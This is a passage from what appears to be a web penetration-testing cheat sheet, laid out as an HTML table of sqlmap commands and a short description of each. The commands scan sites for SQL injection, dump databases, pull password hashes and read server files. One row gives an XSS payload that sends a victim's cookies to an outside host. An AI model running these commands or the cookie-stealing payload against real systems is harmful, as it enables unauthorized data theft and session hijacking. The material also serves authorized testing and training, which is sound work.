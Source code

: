   </tbody>
</table>
</div>


## Basic Web App

### SQLMap Examples

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Command</th>
      <th>Description</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>
        <p><code>sqlmap -u http://meh.com --forms --batch --crawl=10 <br> --cookie=jsessionid=54321 --level=5 --risk=3</code></p>
      </td>
      <td>
            <p>Automated sqlmap scan</p>
      </td>
    </tr>

    <tr>
      <td>
        <p><code>sqlmap -u <target> -p PARAM --data=POSTDATA --cookie=COOKIE <br> --level=3 --current-user --current-db --passwords <br> --file-read="/var/www/blah.php"</code></p>
      </td>
      <td>
            <p>Targeted sqlmap scan</p>
      </td>
    </tr>

    <tr>
      <td>
        <p><code>//<document.write('<img src="http://highon.coffee/x.gif?cookie=' + document.cookie + '" />)</code></p>
      </td>
      <td>
            <p>XSS steal cookie</p>
      </td>
    </tr>

    <tr>
      <td>
        <p><code>sqlmap -u "http://meh.com/meh.php?id=1" <br>--dbms=mysql --tech=U --random-agent --dump </code></p>
      </td>
      <td>
            <p>Scan url for union + error based injection with mysql backend <br>and use a random user agent + database dump</p>
      </td>
    </tr>
